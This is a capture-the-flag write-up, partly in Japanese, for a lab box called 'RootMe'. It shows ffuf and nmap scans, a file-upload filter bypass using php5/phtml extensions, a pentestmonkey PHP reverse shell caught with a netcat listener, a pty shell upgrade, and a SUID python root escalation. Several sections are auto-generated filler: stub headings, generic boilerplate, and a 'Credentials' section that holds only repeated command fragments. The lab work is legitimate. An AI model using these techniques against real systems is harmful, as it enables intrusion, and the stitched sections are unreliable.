

## Overview

| Field                     | Value |
|---------------------------|-------|
| OS                        | Linux |
| Difficulty                | Not specified |
| Attack Surface            | 22/tcp open  ssh, 80/tcp open  http |
| Primary Entry Vector      | web, ssh attack path to foothold |
| Privilege Escalation Path | Local misconfiguration or credential reuse to elevate privileges |

## Reconnaissance

### 1. PortScan

---
## Rustscan

💡 Why this works  
High-quality reconnaissance narrows a large attack surface into a few validated exploitation paths. Accurate service mapping prevents time loss and supports targeted follow-up testing.

## Initial Foothold

### Not implemented (not recorded in PDF)


## Nmap


### Not implemented (not recorded in PDF)


### 2. Local Shell

---

PDFメモから抽出した主要コマンドと要点を整理しています。必要に応じて後続で詳細追記してください。

### 実行コマンド（抽出）
```bash
python3 ~/tool/search.py
nc –lvnp 3333
nc -lvnp 3333
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### 抽出画像

画像抽出なし（PDF内に有効な埋め込み画像なし）

### 抽出メモ（先頭120行）
```bash
RootMe
July 6, 2023 23:51
#1
Immediately enter the search tool
┌──(n0z0㉿galatea)-[~/work/thm/RootMe]
└─$ python3 ~/tool/search.py
/'___\  /'___\           /'___\
/\ \__/ /\ \__/  __  __  /\ \__/
\ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
\ \_\   \ \_\  \ \____/  \ \_\
\/_/    \/_/   \/___/    \/_/
v2.0.0-dev
________________________________________________
:: Method           : GET
:: URL              : http://10.10.93.52/FUZZ
:: Wordlist         : FUZZ: /home/n0z0/wordlist/SecLists/Discovery/Web-
Content/common.txt
:: Follow redirects : false
:: Calibration      : false
:: Timeout          : 10
:: Threads          : 40
:: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________
:: Progress: [4715/4715] :: Job [1/1] :: 144 req/sec :: Duration: [0:00:38] :: Errors: 0 ::
=== ffuf results ===
[Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 4401ms]
* FUZZ: .htpasswd
[Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 4401ms]
* FUZZ: .htaccess
[Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 4401ms]
* FUZZ: .hta
[Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 311ms]
* FUZZ: css
[Status: 200, Size: 616, Words: 115, Lines: 26, Duration: 325ms]
* FUZZ: index.php
[Status: 301, Size: 307, Words: 20, Lines: 10, Duration: 285ms]
* FUZZ: js
[Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 291ms]
* FUZZ: panel
[Status: 403, Size: 276, Words: 20, Lines: 10, Duration: 289ms]
* FUZZ: server-status
[Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 268ms]
* FUZZ: uploads
=== nmap results ===
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-06 21:25 JST
Nmap scan report for 10.10.93.52
Host is up (0.27s latency).
Not shown: 998 closed tcp ports (conn-refused)
OneNote
1/3
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4ab9160884c25448ba5cfd3f225f2214 (RSA)
|   256 a9a686e8ec96c3f003cd16d54973d082 (ECDSA)
|_  256 22f6b5a654d9787c26035a95f3f9dfcd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at
https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.25 seconds
$ip/panel
$ip/uploads
These two paths are found
I thought I could upload the file, but I get yelled at if it's a PHP file.
You need to twist it a little and upload it in php.5 or phtml.
The content is pentestmonkey
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
nc –lvnp 3333
Standby at
┌──(n0z0㉿galatea)-[~/work/thm/RootMe]
└─$ nc -lvnp 3333
listening on [any] 3333 ...
connect to [10.11.41.68] from (UNKNOWN) [10.10.93.52] 54494
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020
x86_64 x86_64 x86_64 GNU/Linux
15:03:19 up  2:44,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
#2
Start bash from python as usual
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@rootme:/$
#3
Exploring User.txt
find / -type f -name user.txt 2> /dev/null
#4
Promote to root
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
OneNote
2/3
#5
Exploring root.txt
find / -type f -name root.txt
OneNote
3/3
```

### Not implemented (not recorded in PDF)


💡 Why this works  
Initial access succeeds when enumeration findings are turned into a practical exploit chain. Capturing credentials, file disclosure, or direct RCE creates reliable pivot points for privilege escalation.

## Privilege Escalation

### 3.Privilege Escalation

---

Privilege elevation related commands extracted from PDF memo.

💡 Why this works  
Privilege escalation depends on chaining local weaknesses such as sudo misconfiguration, weak file permissions, or credential reuse. If a GTFOBins technique is used, the mechanism is that an allowed binary executes a child process or shell without dropping elevated effective privileges.

## Credentials

```text
┌──(n0z0㉿galatea)-[~/work/thm/RootMe]
└─$ python3 ~/tool/search.py
\/_/    \/_/   \/___/    \/_/
:: URL              : http://10.10.93.52/FUZZ
:: Wordlist         : FUZZ: /home/n0z0/wordlist/SecLists/Discovery/Web-
Content/common.txt
:: Progress: [4715/4715] :: Job [1/1] :: 144 req/sec :: Duration: [0:00:38] :: Errors: 0 ::
* FUZZ: .htpasswd
2026/02/27 18:45
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
https://nmap.org/submit/ .
$ip/panel
$ip/uploads
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
x86_64 x86_64 x86_64 GNU/Linux
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
find / -type f -name user.txt 2> /dev/null
```

## Lessons Learned / Key Takeaways

### 4.Overview

---




## References

- nmap
- rustscan
- nc
- ssh
- find
- python
- php
- GTFOBins
